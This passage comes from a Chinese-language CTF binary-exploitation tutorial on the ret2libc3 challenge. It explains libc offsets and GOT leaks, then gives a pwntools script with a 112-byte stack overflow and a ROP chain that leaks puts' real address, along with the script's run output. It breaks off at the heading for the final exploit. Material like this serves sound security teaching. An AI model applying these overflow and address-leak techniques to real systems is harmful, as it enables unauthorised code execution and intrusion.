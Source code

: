 两个都没有，所以只能自己找

4、泄露地址

libc.so 动态链接库里的函数的偏移是固定的，system 函数是属于 libc 的，而且 libc 中也有/bin/s；每个 libc.so 中的函数偏移是固定的，libc 版本不同，偏移不同。找到 libc 版本，即可知道每个函数在这个 libc 文件的偏移量。

**libc 基地址 + 函数偏移量 = 函数真实地址**

所以我们目前需要：程序中某个函数的真实地址——>libc 版本——>libc 基地址

那么如何能够得到一个函数的真实地址呢？

采用 got 表泄露，got 表里存放着就是函数的真实地址，如果函数运行过一遍，里面存放的就是函数的真实地址，如果没有运行，就需要先动态链接重定位，这个过程请详见**动态链接**部分。

观察上面程序，我们的目的是要通过输入使栈溢出从而泄露某个函数的真实地址，而在 gets 函数之前执行的有 puts 函数，所以当我们输入值的时候 got 表中已近有 puts 函数的真实地址。

```plain
# -*- coding: utf-8 -*-
from pwn import *

p = process('./ret2libc3')
e = ELF('./ret2libc3')

puts_got_addr = e.got['puts']   #得到 puts 函数的 got 地址，这个地址存放着 puts 函数真实的地址，需要泄露的地址
puts_plt_addr = e.plt['puts']   #需要借助 puts 函数将泄露的地址返回给我们
main = e.symbols['main']        #在调用完 puts 函数将泄露地址返回给我们后，使程序回到 main 函数，重新栈溢出

payload = ''
payload += 'A'*112              #填充数据，即需要输入的数据
payload += p32(puts_plt_addr)   #原先这里是 gets 函数执行完后的返回地址，现覆盖返回地址为 puts 函数执行地址
payload += p32(main)            #按照上一步，这里应该为 puts 函数的返回地址，覆盖为 main 函数的地址
payload += p32(puts_got_addr)   #这里是 puts 函数的参数
#payload = flat(['A' * 112, puts_plt_addr, main, puts_got_addr])#或者使用这一行代替上面的 5 行

p.sendlineafter('Can you find it !?', payload)  #表示接收到这些字符串再发送 payload

puts_rel_addr = u32(p.recv()[0:4])  #将地址输出出来后再解包，此时就得到了 puts 函数的真实地址
print hex(puts_rel_addr)
```

```plain
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ python ret2libc3.py 
[+] Starting local process './ret2libc3': pid 75942
[*] '/home/qufeng/Desktop/pwn1/ret2libc3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
0xf7ddf150
[*] Stopped process './ret2libc3' (pid 75942)
```

得到了 puts 函数的真是地址为 0xf7ddf150

5、exp
